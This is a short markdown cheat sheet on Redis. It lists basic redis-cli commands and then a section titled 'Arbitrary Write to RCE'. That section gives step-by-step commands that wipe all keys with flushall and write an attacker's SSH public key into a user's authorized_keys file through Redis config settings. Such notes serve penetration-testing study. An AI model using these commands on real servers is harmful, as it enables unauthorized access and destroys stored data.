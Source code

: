 ```yaml
---
title: "Redis"
date: 2025-7-25
tags: ["Redis-Cli", "Redis", "Exploitation", "Database"]
---
```


### General

```console
# Connect
redis-cli -h 127.0.0.1
```

```console
# Provide password
auth <PASSWORD>
```

```console
# List current keys
keys *
```

```console
# Add key
incr key
```

```console
# Get key value
get key
```

---

### Abuse #1: Arbitrary Write to RCE

```console
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

```console
# Deletes all keys from all databases on current host
redis-cli -h 127.0.0.1 flushall
```

```console
cat foo.txt | redis-cli -h 127.0.0.1 -x set crackit
```

```console
redis-cli -h 127.0.0.1 config set dir /home/<USER>/.ssh/
```

```console
redis-cli -h 127.0.0.1 config set dbfilename "authorized_keys"
```

```console
redis-cli -h 127.0.0.1 save
```

